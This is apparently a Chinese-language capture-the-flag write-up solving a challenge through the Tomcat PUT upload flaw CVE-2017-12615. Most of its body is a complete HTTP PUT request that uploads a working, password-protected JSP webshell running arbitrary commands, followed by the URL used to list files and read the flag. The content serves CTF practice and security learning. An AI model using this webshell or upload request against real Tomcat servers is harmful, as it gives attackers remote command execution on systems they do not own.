



## 解题思路

- 题目描述提到 tomcat 远程代码执行（CVE-2017-12615）
- 使用 BurpSuit 拦截网页的 GET 请求，并发送到 Repeater
- 构造 webshell 并发送<br>
    ```
    PUT /hack.jsp/ HTTP/1.1
    Host: f5b9bbe0.yunyansec.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    If-Modified-Since: Thu, 20 Jun 2019 10:03:08 GMT
    If-None-Match: W/"5619-1561024988000"
    Cache-Control: max-age=0
    Content-Length: 660

    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
    +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
    ```
    
- 此时可通过`http://f5b9bbe0.yunyansec.com/hack.jsp?&pwd=023&cmd=ls`远程查看文件目录下内容，发现`flag.txt`<br>

- `cat`一下即可获取 Flag<br>


## 参考资料

- [Tomcat 任意文件上传漏洞CVE-2017-12615复现测试](https://blog.csdn.net/qq1124794084/article/details/78044756)